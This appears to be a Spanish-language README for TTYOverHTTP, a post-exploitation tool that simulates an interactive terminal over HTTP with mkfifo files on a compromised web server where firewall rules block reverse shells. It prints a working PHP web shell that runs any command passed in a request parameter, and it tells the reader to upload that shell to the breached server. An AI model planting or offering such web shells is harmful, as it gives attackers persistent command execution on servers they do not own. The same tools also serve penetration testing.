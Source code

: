 # TTYOverHTTP

En ocasiones cuando comprometemos un servidor web, hay reglas configuradas (**Ej: iptables**) que nos impiden obtener una Reverse Shell vía Netcat, Python, u otra utilidad.

Con esta herramienta, evitamos tener que hacer uso de una reverse shell para
obtener una TTY posteriormente completamente interactiva. A través de archivos
'**mkfifo**', jugamos para simular una TTY interactiva sobre HTTP, logrando
manejarnos sobre el sistema cómodamente sin ningún tipo de problema.

Lo único que necesitamos, es subir al servidor comprometido una estructura PHP como la siguiente para ejecutar comandos:

```php
<?php
	echo shell_exec($_REQUEST['cmd']);
?>
```

Una vez subido, simplemente ejecutamos el script (Es necesario cambiar la ruta en el script donde se sitúa nuestro script PHP alojado en el servidor vulnerado).

Tras su ejecución, se muestra un ejemplo de su utilidad:

<div style="text-align:center"><img src="https://i.imgur.com/jxkqpI3.png"/></div>

